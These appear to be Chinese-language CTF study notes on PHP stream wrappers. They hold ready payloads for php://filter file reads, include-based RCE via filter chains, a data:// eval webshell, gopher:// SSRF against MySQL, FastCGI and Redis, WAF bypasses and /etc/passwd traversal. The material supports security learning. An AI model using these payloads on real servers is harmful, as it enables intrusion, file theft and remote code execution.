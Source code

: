 - [PHP官方文档](https://www.php.net/manual/en/wrappers.php)
- # `php://`
	- 各种编码的加解密
		- ```
		  base64编码，读取文件：
		  php://filter/read=convert.base64-encode/resource=
		  base64解码，读取文件：
		  php://filter/read=convert.base64-decode/resource=
		  base64解码，写入文件：
		  php://filter/write=convert.base64-decode/resource=
		  rot13编码
		  php://filter/write=string.rot13/resource=
		  zlib压缩
		  php://filter/zlib.inflate/resource=
		  ```
	- include无写入文件RCE
	  id:: 63bc02d6-ea56-4c2a-a494-0cb277531dba
		- 通过错误的编码转换，我们可以在文件内容的开头加入某些字符，这样我们就可以在文件的开头写入任意内容，并实现RCE
		- [参考](https://tttang.com/archive/1395/)
		- [Payload生成](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
		- 如果是`include_once`或者`require_once`那可能要配合 ((636665b7-cd42-4bd2-a685-f5e5cc4f5ec7))
	- 让php崩溃，从而让临时文件留在/tmp中
	  id:: 636665b7-767d-440c-8482-bb5e1dc0933c
		- `php://filter/string.strip_tags/resource=/etc/passwd`
	- 让`include_once`和`require_once`失效：
	  id:: 636665b7-cd42-4bd2-a685-f5e5cc4f5ec7
		- `php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/etc/passwd`
	- isset函数支持php伪协议
	- 绕开死亡`die`
		- 某些题目会在文件的开头加入类似`<?php die();`的内容，让我们无法正常写入webshell, 我们可以使用base64解码或者其他方式破坏掉前面的`die`
		- `php://filter/write=string.strip_tags|convert.base64-decode/resource=`
		- `convert.iconv.UCS-2LE.UCS-2BE`可以用于两两交换字符
	- php在解析伪协议时会先urldecode伪协议，所以可以使用二次编码绕过WAF
	  id:: 64673efa-c544-4ad7-9b9b-920b148d0b26
	- 基于filter报错进行读取文件：[[CTF/PHP/基于PHP伪协议报错实现文件读取]]
	- 所有filter
		- ```php
		  zlib.*
		  convert.iconv.*
		  string.rot13
		  string.toupper
		  string.tolower
		  string.strip_tags
		  convert.base64-encode
		  convert.base64-decode
		  convert.quoted-printable-encode
		  convert.quoted-printable-decode
		  consumed
		  dechunk
		  ```
- # `data://`
	- 单纯表示某个内容，比如：`data://text/plain,123`读取出来的内容就是`123`
	- include无写入文件RCE
		- `data://text/plain,<?php eval($_POST['data']);?>`
	- base64
		- `data://text/plain;base64,`
	- php中也可以是`data:xxx`
		- [[CTF/WP/Phuck2]]
- # `gopher://`
  id:: 62f27746-a352-41d4-b76d-63fc1f7c9e4f
	- `gopher://127.0.0.1:9000/_xxx`
		- 其中xxx是（URL编码后的）TCP发送的数据
	- 打SSRF
		- 打无密码MySQL
			- 只需要无密码用户的用户名即可执行任意SQL指令
		- 打FastCGI
			- 只需要一个存在主机上文件的路径就可以执行任意Shell指令
		- 可以打：`mysql, postgresql, fastcgi, redis, smtp, zabbix, pymemcache, rbmemcache, phpmemcache, dmpmemcache`
	- Payload可以用 ((62f14125-43fc-4da5-b83f-4d56aa1d2157)) 生成
- # `phar://`
	- 读取某个phar压缩包中的文件
	- `phar://a.phar/a.txt`
	- [[CTF/PHP/Phar]]
- # `file://`
	- 表示文件，如`file:///etc/passwd`
	- php中`file://`除了直接写绝对路径，还可以写`file://<ip-or-domain>/<path>`
	  id:: 65b3d87d-c0d2-45b0-8736-6cdec74a9406
		- 也就是说支持`file://localhost/etc/passwd`的格式
- # `dict://`
	- 发送TCP数据，感觉不如`gopher://`
- # `glob://`
	- 读取目录，后面接上Linux的glob表达式
	- {{embed [[CTF/PHP/目录读取]]}}
- 另：
	- java 的`file://`可以读取目录
	- 能用`file://`的地方有时可以不用`file://`, 直接读取
		- 比如`file:///etc/passwd`和`/etc/passwd`
- 其他
	- 有关file_get_contents()函数的一个trick，可以看作是SSRF的一个黑魔法，当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。
		- ```
		  httpsssss://../../../../../../etc/passwd
		  httpsssss://abc../../../../../../etc/passwd
		  ```
	- 在很多时候伪协议都是支持URL编码的，可以用来绕过关键字检测